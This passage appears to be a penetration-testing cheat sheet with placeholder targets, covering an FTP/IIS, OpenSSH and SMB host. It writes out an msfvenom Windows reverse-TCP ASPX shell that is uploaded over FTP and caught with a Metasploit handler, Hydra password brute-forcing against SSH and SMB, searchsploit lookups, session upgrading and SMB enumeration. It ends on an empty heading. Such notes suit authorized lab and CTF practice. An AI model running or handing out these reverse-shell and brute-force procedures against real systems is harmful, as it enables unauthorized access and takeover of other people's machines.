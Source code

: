 ```bash
cd <TARGET>/
ip -br -c a
msfvenom -p windows/shell/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f asp > shell.aspx

## FTP Login with <USER>
ftp <TARGET_IP>
put shell.aspx

## msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST <LOCAL_IP>
set LPORT <LOCAL_PORT>

## Open http://<TARGET_IP>/shell.aspx . A reverse shell may be received.
```

#### OPENSSH

```bash
# Targeting OPENSSH
nmap -sV -sC -p 22 <TARGET_IP>

searchsploit OpenSSH 7.1

## Brute-force SSH
hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ssh
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ssh

## SSH Login with <USER>
ssh <USER>@<TARGET_IP>

## Win
bash
net localgroup administrators
whoami /priv

# msfconsole
use auxiliary/scanner/ssh/ssh_login
setg RHOST <TARGET_IP>
setg RHOSTS <TARGET_IP>
set USERNAME <USER>
set PASSWORD <PW>
run
session 1
# CTRL+Z to background
sessions -u 1
```

#### SMB

```bash
# Targeting SMB
nmap -sV -sC -p 445 <TARGET_IP>

## Brute-force SMB
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> smb
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> smb

## Enumeration
smbclient -L <TARGET_IP> -U <USER>
smbmap -u <USER> -p <PW> -H <TARGET_IP>
enum4linux -u <USER> -p <PW> -U <TARGET_IP>

## msfconsole
```